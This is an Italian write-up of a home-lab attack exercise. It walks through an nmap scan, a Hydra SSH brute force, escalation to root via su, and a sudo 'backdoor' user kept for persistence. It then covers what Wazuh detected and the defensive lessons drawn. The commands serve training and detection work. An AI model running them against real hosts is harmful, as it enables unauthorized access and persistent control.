

# Piano di Attacco #1 - SSH Brute Force

> Tempo totale: ~3h (inclusi setup e debugging)


## Scenario

Mi sono connesso a una rete WiFi. Non so chi altro ci sia connesso.
Il mio obiettivo è trovare gli host attivi, identificare un bersaglio e ottenere accesso SSH tramite brute force.

> Nota: `netstat` non è sufficiente - mostra solo le connessioni e le porte aperte sulla **mia macchina**.
> Uso `nmap` perché scansiona attivamente l'**intera rete** e scopre gli altri dispositivi.

---

## Flusso dell'attacco



---

## Passi

### 1. Scansione rete - scopro gli host attivi

```bash
nmap -sn 192.168.1.0/24
```

Mostra tutti i dispositivi attivi in rete.

Dalla scansione appaiono più dispositivi Proxmox (prefisso MAC `BC:24:11`). Poiché cs33 è un container LXC, non appare con un hostname - lo identifico tramite l'host Proxmox (`pct exec 33 -- ip a`), che conferma che cs33 è a `192.168.1.133`.

### 2. Scansione porte - trovo i servizi aperti sul bersaglio

```bash
nmap -sV 192.168.1.133
```

La porta 22 (SSH) è aperta - in esecuzione OpenSSH 8.9p1 su Ubuntu. Il bersaglio è vulnerabile al brute force.

### 3. Brute force SSH con Hydra

> In uno scenario reale userei la wordlist completa `rockyou.txt` (14M password). Qui ho usato una lista corta per velocità.

```bash
hydra -l swagvict -P /tmp/test-passwords.txt -t 4 -V ssh://192.168.1.133
```

Hydra ha trovato le credenziali:
```
[22][ssh] host: 192.168.1.133   login: swagvict   password: victim
1 of 1 target successfully completed, 1 valid password found
```

### 4. Login con la password trovata

```bash
ssh swagvict@192.168.1.133
```

---

## Post-exploitation

### Privilege Escalation

Cerco binari con SUID:

```bash
find / -perm -4000 -type f 2>/dev/null
```

Trovato `/usr/bin/su` con SUID. Eseguendo `su -` con la password di root ottengo una shell root completa.

> **Problema di sicurezza:** qualsiasi utente su cs33 può diventare root se conosce la password. In un sistema sicuro, il login root dovrebbe essere disabilitato e `su` limitato a un gruppo specifico (es. `wheel`).

### Utente Backdoor - Persistenza

Una volta root, creo un utente backdoor con privilegi sudo:

```bash
useradd -m -s /bin/bash backdoor
passwd backdoor
usermod -aG sudo backdoor
```

Da cs20 ho ora accesso persistente anche se `swagvict` venisse eliminato:

```bash
ssh backdoor@192.168.1.133
```

---

## Rilevamento - Alert Wazuh su cs55

> **Nota:** Inizialmente non apparivano alert. Era un falso problema - Wazuh stava già monitorando SSH via `journald`. Non appena ho tentato login falliti intenzionali, gli alert sono apparsi subito.

Wazuh ha categorizzato l'attacco come:
- `Initial Access`
- `Credential Access` - brute force
- `Lateral Movement - Success` - login SSH riuscito
- `Privilege Escalation`
- `Persistence` - utente backdoor creato
- `Defense Evasion`

cs55 ha rilevato anche:
- IP di cs20 (Kali Linux) come sorgente dell'attacco
- Creazione dell'utente backdoor
- Riconnessione da cs20 come `backdoor`

---

## Osservazioni Umane (Io)

- **Psicologia dell'attaccante:** Come attaccante, posso essere in ansia durante l'attacco - potrei non essere osservato o non considerare alcuni contesti attorno a me.
- **Social Engineering:** Ci sono molti modi per ottenere una password - come le persone reagiscono, cosa pensano, cosa fanno, ecc.

## Osservazioni AI

- **Password debole su un utente critico:** `swagvict` aveva password `victim` - craccata in istanti. In un ambiente reale servono policy sulle password e blocco account dopo N tentativi falliti.
- **Password root accessibile via `su`:** la privilege escalation è stata banale. `su` dovrebbe essere limitato o la password root disabilitata, usando `sudo` con regole per utente.
- **I container LXC non sono isolati a livello rete:** cs33 era raggiungibile da tutta la LAN senza regole firewall. Un setup sicuro limiterebbe SSH agli IP fidati.
- **Wazuh ha rilevato tutto ma non ha bloccato niente:** in questa configurazione Wazuh è passivo (solo SIEM). Per bloccare attivamente serve configurare `active-response` - es. ban automatico IP dopo X tentativi SSH falliti.
- **L'utente backdoor è stato rilevato ma non fermato:** questo evidenzia l'importanza di avere sia rilevamento che risposta. La sola rilevazione non è sufficiente in un SOC reale.
